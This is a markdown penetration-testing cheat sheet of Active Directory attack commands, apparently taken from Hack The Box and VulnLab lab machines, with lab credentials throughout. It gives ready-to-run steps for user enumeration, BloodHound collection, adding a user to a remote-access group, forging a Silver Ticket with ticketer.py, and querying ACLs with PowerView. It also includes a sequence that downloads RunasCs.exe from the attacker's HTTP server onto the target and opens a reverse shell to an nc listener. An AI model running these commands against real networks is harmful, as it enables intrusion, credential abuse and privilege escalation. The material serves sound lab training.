 #### enumerate other users remotely
```
nxc smb administrator.htb -u "Olivia" -p "ichliebedich" --rid-brute | grep SidTypeUser
```
or from a shell on the target:
```
net users
```
#### if creds are valid over smb, but not winrm/rdp, try enum4linux with them:
```
enum4linux -a -u "fmcsorley" -p "CrabSharkJellyfish192" 192.168.199.122
```

```
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.129.78.4
```

#### run bloodhound remotely
```
bloodhound-python -c All -dc FOREST.htb.local -gc FOREST.htb.local -ns 10.129.175.196 -d htb.local -u svc-alfresco -p 's3rvice'
```
or use nxc:
```
nxc ldap administrator.htb -u Olivia -p ichliebedich --bloodhound --collection All --dns-tcp --dns-server 10.10.11.42
```
or if creds work with shell, can run SharpHound
```
. .\SharpHound.ps1
```
```
Invoke-BloodHound -CollectionMethod All
```

#### want to move laterally and have low level (like svc) creds, but that user is not in Remote Users group (so cant execute commands remotely ie get winrm shell):
- host RunAsCs.exe on python server to upload:
	- `python -m http.server 80`
- set up listener:
	- `rlwrap -cAr nc -lvnp 6969`
- upload RunAsCs.exe to svc level shell:
	- `powershell -c wget 10.10.14.172/RunasCs.exe -outfile r.exe`
- run RunasCs.exe:
```
.\r.exe C.Bum Tikkycoll_431012284 -r 10.10.14.172:6969 cmd
```
- should create new shell in listener as c.bum
	- c.bum:Tikkycoll_431012284 are creds
	- 10.10.14.172 is tun0 on local machine

#### if creds are valid, but nxc doesn't show pwned for winrm, run ldeep:
```
ldeep ldap -u tracy.white -p 'zqwj041FGX' -d nara-security.com -s ldap://nara-security.com add_to_group "CN=TRACY WHITE,OU=STAFF,DC=NARA-SECURITY,DC=COM" "CN=REMOTE ACCESS,OU=remote,DC=NARA-SECURITY,DC=COM" && deactivate
```
- adds user to remote access group, so evil-winrm should work afterward
- because of conflicting ldap3 python module with bloodhound, set up ldeep to run in virtual environment with alias so `&& deactivate` just exits that

#### ***Silver Ticket***
have low level creds, check for SID(from `enum4linux` or `lookupsid.py`) and ServicePrincipalName (from `GetUserSPNs.py`) of user to make silver ticket
```
GetUserSPNs.py breach.vl/julia.wong:Computer1 -dc-ip 10.10.10.111 -request
```
- returns ntlmv2 hash (crack with `john`) and ServicePrincipalName like `MSSQLSVC/BREACH.VL:1433` used in `ticketer.py` command below:
```
lookupsid.py breach.vl/julia.wong:computer1@10.10.10.10
```
- copy Domain SID for `ticketer.py` command below
- get nthash from ntlm hash generator from password from https://codebeautify.org/ntlm-hash-generator
	- Trustno1 = 69596C7AA1E8DAEE17F8E78870E25A5C
- - make sure `/etc/hosts` reflects IP for Domain `BREACH.VL`
```
ticketer.py -nthash 69596C7AA1E8DAEE17F8E78870E25A5C
-domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl spn 'MSSQLSVC/BREACH.VL:1433@BREACH.VL' -user-id 500 Administrator
```
- will output "saving ticket in Administrator.ccache"
```
export KRB5CCNAME=/home/kali/Desktop/VulnLab/ldap/Administrator.ccache
```
- caches creds
```
mssqlclient.py breach.vl -k -no-pass -windows-auth
```

#### PowerView.ps1 (command line alternative to Bloodhound)
```
. .\PowerView.ps1
```
- adds commands to powershell
```
$UsersAcls = Get-DomainObjectAcl -SearchBase "CN=Users,DC=administrator,DC=htb" -ResolveGUIDs
```
- save all user ACLs to variable
```
$UsersAcls | Where-Object { $_.SecurityIdentifier -eq $Olivia.ObjectSID } | Select-Object IdentityReference, ObjectDN, ActiveDirectoryRights | Format-Table -AutoSize
```
- filter $ UsersAcls variable to show rights Olivia has over others
- alternative approach:
To see what rights user (Olivia) has over another user (Michael):
```
$Olivia = Get-ADUser -Identity "olivia" -Properties ObjectSID
```
- saves variable of olivia's SID
```
$MichaelACL = Get-DomainObjectAcl -Identity "CN=Michael Williams,CN=Users,DC=administrator,DC=htb" -ResolveGUIDs
```
- saves Michael's ACL list as a variable
```
$MichaelACL | Where-Object { $_.SecurityIdentifier -eq $Olivia.ObjectSID -and $_.ActiveDirectoryRights -match "GenericAll" } | Select-Object IdentityReference, ActiveDirectoryRights
```
- filters michael's ACL list to show Olivia's rights over him